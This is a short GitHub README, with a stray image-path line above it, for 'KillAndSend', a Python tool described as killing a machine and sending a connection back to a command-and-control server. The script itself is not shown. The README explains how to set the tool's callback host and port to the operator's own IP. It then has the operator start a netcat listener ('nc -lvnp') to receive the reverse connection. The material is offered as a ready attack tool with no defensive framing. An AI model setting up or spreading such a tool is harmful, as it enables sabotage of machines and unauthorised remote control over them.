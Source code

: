 # KillAndSend
The python program for killing a machine and sending a connection back to C2 or command and control server

# Setting up
 open the file 
	root@liunx:# nano killandsend.py
		(or ant text editor)
on lines 
	6 host = "127.0.0.1"
	7 port = 8080

change the host and port 
	6 host = "Your_IP"
	7 port = port_number_for_nc

make sure to run netcat 
	nc -lvnp port_number_for_nc

# Usage
https://github.com/user-attachments/assets/9695dcf8-51f7-412c-8112-04c7b581296e
